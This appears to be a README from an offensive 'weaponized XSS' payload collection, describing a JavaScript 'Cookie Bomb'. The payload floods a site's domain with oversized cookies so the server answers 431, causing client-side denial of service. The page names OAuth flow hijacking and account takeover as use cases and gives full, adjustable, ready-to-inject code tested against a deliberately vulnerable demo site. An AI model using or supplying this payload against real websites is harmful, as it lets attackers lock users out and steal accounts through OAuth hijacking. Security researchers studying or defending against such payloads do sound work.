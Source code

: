 # [unauthn/authn] Cookie Bomb

<p align="justify">This payload denies access to a website or any part(s) of it, on the client-side (i.e. causes a full/partial client-side Denial-of-Service (DoS) condition).</p>

<p align="justify">This is achieved by creating multiple junk cookies on the client-side with very long values (each below cookie size limit - around 4KB). Once the web browser issues an HTTP request to the affected website/endpoint, along with these cookies, the web server rejects it and responds with the <code>431 Request Header Fields Too Large</code> HTTP status code. Effectively, this denies the web browser access to the requested resource (i.e. causes a DoS condition; client-side only).</p>

<p align="justify">The DoS condition persists as long as the junk cookies are stored on the client-side. Once the web browser's cache is cleared, the affected resource is accessible again from the client-side.</p>

Typical use-case scenarios:
* OAuth flow hijacking
    * idea: [leverage OAuth login to obtain OAuth token](https://medium.com/@danielbelay/day-7-drag-drop-xss-cookie-bomb-for-oauth-hijacking-a9b828cd9c54)
    * IMPACT:
        * Account Take Over (ATO)
            * CVSS-Confidentiality: MEDIUM/HIGH
            * CVSS-Integrity: MEDIUM/HIGH

## Code

```
let cookCount = 3;     // adjust, if needed
let cookLength = 3500; // adjust, if needed
let cookPath = '/';    // adjust, if needed
let cookDomain = window.document.domain; // adjust, if needed
let cookExpire = 10;   // minutes; adjust, if needed
let cookPostfix = '';
if (location.protocol == 'https:') {
  cookPostfix += ' Secure;';
}
function setCookie(inputKey, inputValue, inputPath, inputDomain, inputExpiry, inputPostfix) {
  let cookExpiry = new Date(+ new Date() + inputExpiry * 60 * 1000);
  document.cookie = inputKey + '=' + inputValue + '; path=' + inputPath + '; domain=' + inputDomain + '; expires=' + cookExpiry.toUTCString() + ';' + inputPostfix;
}
function setCookieBomb(inputCount, inputLength, inputPath, inputDomain, inputExpiry, inputPostfix) {
  let cookValue = 'A'.repeat(inputLength);
  for(let i=0; i<inputCount; i++) {
    setCookie('cookie' + i, cookValue, inputPath, inputDomain, inputExpiry, inputPostfix);
  }  
}
setCookieBomb(cookCount, cookLength, cookPath, cookDomain, cookExpire, cookPostfix);
```

## Test Environment

### Web Browsers (20250812)
* [x] Mozilla Firefox 141.0.3 (64-bit)
* [x] Google Chrome 139.0.7258.67 (64-bit)
* [x] Microsoft Edge 139.0.3405.86 (64-bit)

### Vulnerable Page

http://testphp.vulnweb.com

## Screenshot

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://raw.githubusercontent.com/lighthouseitsecurity/weaponizedXSS/refs/heads/main/advanced/jsGadgets/cookieBomb/screenshots/cookieBomb_-_endpoint_DoS_-_1-1.png">
      <img src="https://raw.githubusercontent.com/lighthouseitsecurity/weaponizedXSS/refs/heads/main/advanced/jsGadgets/cookieBomb/screenshots/cookieBomb_-_endpoint_DoS_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/ae8f7205-a757-401f-8240-7b9b1002c775
